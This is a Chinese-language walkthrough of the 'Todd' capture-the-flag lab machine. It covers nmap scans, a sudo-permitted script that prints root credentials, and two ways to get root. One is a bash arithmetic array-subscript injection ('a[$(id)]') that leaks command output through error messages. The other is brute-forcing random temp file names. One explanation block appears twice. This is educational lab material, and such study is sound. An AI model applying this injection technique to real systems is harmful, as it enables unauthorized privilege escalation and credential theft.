

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Todd  
❯ nmap 192.168.56.137 -sV -A  -p-

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 93:a4:92:55:72:2b:9b:4a:52:66:5c:af:a9:83:3c:fd (RSA)
|   256 1e:a7:44:0b:2c:1b:0d:77:83:df:1d:9f:0e:30:08:4d (ECDSA)
|_  256 d0:fa:9d:76:77:42:6f:91:d3:bd:b5:44:72:a7:c9:71 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Mindful Listening
|_http-server-header: Apache/2.4.59 (Debian)
```

页面没有任何可以用的信息

然后再次进行**Nmap**，发现多了几个端口

```
[root@kali] /home/kali/Todd  
❯ nmap 192.168.56.137 -sV -A  -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 15:52 CST
Nmap scan report for 192.168.56.137
Host is up (0.00028s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 93:a4:92:55:72:2b:9b:4a:52:66:5c:af:a9:83:3c:fd (RSA)
|   256 1e:a7:44:0b:2c:1b:0d:77:83:df:1d:9f:0e:30:08:4d (ECDSA)
|_  256 d0:fa:9d:76:77:42:6f:91:d3:bd:b5:44:72:a7:c9:71 (ED25519)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-title: Mindful Listening
|_http-server-header: Apache/2.4.59 (Debian)
7066/tcp  open  unknown
7816/tcp  open  tcpwrapped
9364/tcp  open  tcpwrapped
10617/tcp open  tcpwrapped
11766/tcp open  tcpwrapped
13584/tcp open  tcpwrapped
14025/tcp open  tcpwrapped
19345/tcp open  tcpwrapped
25088/tcp open  tcpwrapped
27179/tcp open  tcpwrapped
27730/tcp open  tcpwrapped
```

然后这个端口可以连上去


然后拿到**user.txt**



写入**ssh**密钥连接即可


## Root

查看**sudo -l**

```
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

查看这个**guess\_and\_check**

```
$ cat /srv/guess_and_check.sh
#!/bin/bash

# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

这个脚本 `/srv/guess_and_check.sh` 是一个简单的 Bash 脚本，执行以下操作：

1. **生成一个随机数**：
    - `a=$((RANDOM%1000))`：生成一个 0 到 999 之间的随机数，并将其赋值给变量 `a`。

3. **提示用户输入**：
    - `echo "Please Input [$a]"`：将生成的随机数显示给用户。
    
    - `read -p ">>>" input_number`：提示用户输入一个数字。

5. **检查用户输入**：
    - `[[ $input_number -ne "$a" ]] && exit 1`：如果用户输入的数字不等于生成的随机数 `a`，脚本会以状态码 1 退出。

7. **生成更多随机文件**：
    - `true_file="/tmp/$((RANDOM%1000))"` 和 `false_file="/tmp/$((RANDOM%1000))"`：脚本生成两个位于 `/tmp` 目录下的随机文件路径。

9. **文件存在性检查**：
    - `[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]]`：如果 `true_file` 指定的位置存在文件，并且 `false_file` 指定的位置没有文件，脚本会继续执行。

11. **显示凭证文件内容**：
    - `cat /root/.cred`：如果上述条件成立（即 `true_file` 存在而 `false_file` 不存在），脚本将显示 `/root/.cred` 文件的内容，假设该文件包含敏感信息。
    
    - `|| exit 2`：如果条件不成立，脚本将以状态码 2 退出。

### 分析：

这个脚本 `/srv/guess_and_check.sh` 是一个简单的 Bash 脚本，执行以下操作：

1. **生成一个随机数**：
    - `a=$((RANDOM%1000))`：生成一个 0 到 999 之间的随机数，并将其赋值给变量 `a`。

3. **提示用户输入**：
    - `echo "Please Input [$a]"`：将生成的随机数显示给用户。
    
    - `read -p ">>>" input_number`：提示用户输入一个数字。

5. **检查用户输入**：
    - `[[ $input_number -ne "$a" ]] && exit 1`：如果用户输入的数字不等于生成的随机数 `a`，脚本会以状态码 1 退出。

7. **生成更多随机文件**：
    - `true_file="/tmp/$((RANDOM%1000))"` 和 `false_file="/tmp/$((RANDOM%1000))"`：脚本生成两个位于 `/tmp` 目录下的随机文件路径。

9. **文件存在性检查**：
    - `[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]]`：如果 `true_file` 指定的位置存在文件，并且 `false_file` 指定的位置没有文件，脚本会继续执行。

11. **显示凭证文件内容**：
    - `cat /root/.cred`：如果上述条件成立（即 `true_file` 存在而 `false_file` 不存在），脚本将显示 `/root/.cred` 文件的内容，假设该文件包含敏感信息。
    
    - `|| exit 2`：如果条件不成立，脚本将以状态码 2 退出。

该脚本的设计似乎是为了确认是否由人类用户执行，要求用户输入正确的数字。如果用户输入正确的数字，脚本继续检查 `/tmp` 目录下的文件是否存在。如果满足条件（`true_file` 存在且 `false_file` 不存在），则显示 `/root/.cred` 文件的内容，可能暴露敏感信息。

### Method 1

靶机作者提供的思路

可以将这个脚本内容复制到本地进行调试

```
#!/bin/bash

# check this script used by human 
a=$((RANDOM%1000))
echo "Generated a: $a"

echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
echo "Generated true_file: $true_file"

sleep 1
false_file="/tmp/$((RANDOM%1000))"
echo "Generated false_file: $false_file"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /etc/shadow || exit 2
```


可以看到输入正确的数字会进到下一步，而输入错误会直接停止

注意到下面这个逻辑，他是直接把输入的字符串转为了一个变量，并且与**$a**进行比较

```
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1
```

因此这里就存在一个注入点，输入的是a那么也能比较成功


如果输入的是一个数组，那么数组和一个非数组类型进行比较会触发语法错误。并且会输出错误信息


属于是**a\[$(id)\]**这里会先解析最里面的id作为一个命令，然后结果作为数组下标，然后比较的时候会触发语法错误，输出错误信息。从而得到我们想要的命令结果。

### Method 2

纯靠运气式

先创建一部分数字文件在**tmp**目录下

```
cd tmp
touch {0..500}   
```


然后开始碰运气，运气好的话，几次就能出，得到root的密码是：**fake password**（中间有空格）


## Summary

`User`：连接**nmap**扫到的端口就行。

`Root`：输入字符串经过类型转换，存在数组下标解析命令的问题，导致命令执行后的结果被语法错误信息带出。也可以碰运气，毕竟是随机数。

[【Todd靶机设计思路复盘】]( https://www.bilibili.com/video/BV1s5XaYMEgR/?share_source=copy_web&vd_source=e68972c88b84314ddb5939058de3405e)
